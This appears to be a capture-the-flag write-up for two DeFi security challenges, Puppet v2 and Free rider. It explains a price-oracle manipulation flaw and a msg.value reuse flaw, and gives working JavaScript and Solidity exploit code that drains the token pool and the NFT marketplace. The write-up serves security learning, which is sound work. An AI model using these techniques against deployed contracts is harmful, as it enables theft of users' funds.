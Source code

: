 ### Puppet v2
The objective of this challenge is:
- Transfer all DVT tokens from `PuppetV2Pool` contract to the attacker.
  
The `PuppetV2Pool` contract allows borrowing of DVT tokens bt depositing triple the borrowing amount in wrapped ether. However, since it calculated the required deposit with `UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH)`, the challenger can manipulate both `reservesToken` and `reservesWETH` by selling DVT tokens and buying WETH tokens. The ether required as collateral to borrow from `PuppetV2Pool` will be much lower and can be drained with roughly 20 ethers.
```
<!-- Javascript -->
tx = await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
await tx.wait();
amountIn = ATTACKER_INITIAL_TOKEN_BALANCE;
amountOutMin = 0;
path = [this.token.address, this.weth.address];
to = attacker.address;
deadline = (await ethers.provider.getBlock()).timestamp + 30;
tx = await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(amountIn, amountOutMin, path, to, deadline);
await tx.wait();
tx = await this.weth.connect(attacker).deposit({value: ethers.utils.parseEther('19.6')});
await tx.wait();
attackerWethBalance = await this.weth.balanceOf(attacker.address);
tx = await this.weth.connect(attacker).approve(this.lendingPool.address, attackerWethBalance);
await tx.wait();
tx = await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
await tx.wait();
```


### Free rider
The objective of this challenge is:
- Drain all NFTs and ethers from `FreeRiderNFTMarketplace` contract.
  
The `FreeRiderNFTMarketplace` contract has criticals flaws in the way `buyMany()` function and `_buyOne()` function is implemented and. The `buyMany()` function calls `_buyOne()` function for each NFT, which checks the condition `require(msg.value >= priceToPay, "Amount paid is not enough")`. However because `msg.value` will persist throughout a transaction, the challenger can send `msg.value` required for a single NFT to buy as many NFT available. Furthermore, even though the buyer should be paying the seller `FreeRiderNFTMarketplace` contract, `payable(token.ownerOf(tokenId)).sendValue(priceToPay)` will pay the buyer.
```
<!-- Solidity -->
function exploit(uint amount0Out, uint amount1Out, uint256[] calldata _tokenId) public {
    uint256[] memory tokenIds = _tokenId;
    IUniswapPair(pairAddress).swap(
        amount0Out,
        amount1Out,
        address(this),
        abi.encode(tokenIds)
    );
}

function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
    (uint256[] memory tokenIds) = abi.decode(data, (uint256[]));
    IWeth(wethAddress).withdraw(amount0);
    IMarketplace(marketAddress).buyMany{value:amount0}(tokenIds);
    IWeth(wethAddress).deposit{value: 15.05 ether}();
    IWeth(wethAddress).transfer(pairAddress, 15.05 ether);
    for (uint i = 0; i < tokenIds.length; i++) {
        INFT(nftAddress).safeTransferFrom(address(this), buyerAddress, i);
    }
}
```